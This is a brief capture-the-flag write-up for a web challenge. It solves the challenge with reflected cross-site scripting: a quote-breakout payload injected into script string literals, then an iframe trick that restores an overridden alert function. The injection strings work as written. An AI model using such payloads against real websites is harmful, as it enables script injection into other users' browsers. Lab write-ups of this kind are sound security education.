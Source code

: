 # Excesss - Web
> This is some kind of reverse captcha to tell if the visitor is indeed a robot. Can you complete it?

We are presented with this view in the challenge:
![excess](https://i.imgur.com/rXmLy7o.png)

If we go to the ```?xss=hello``` link, we can see this in the source code:
```<script>var x ='hello'; var y = `hello`; var z = "hello";</script>```

To escapse our own code into that, we can try:
```'; alert(1); var a='``` 

But we get a text prompt back after trying that because there is a js file in the source code that contains this:
```window.alert = (x=>prompt("He confirm. He alert. But most of all he prompt."));```

This this means that it turns the alert box into a prompt. In order to retrieve the original alert function, we can use an iframe to restore an overridden function. We run this payload:
```';q=document.createElement("iframe");q.setAttribute("src","http://xss1.alieni.se:2999");document.body.appendChild(q).contentWindow.alert(1)//;```
which gives us the flag.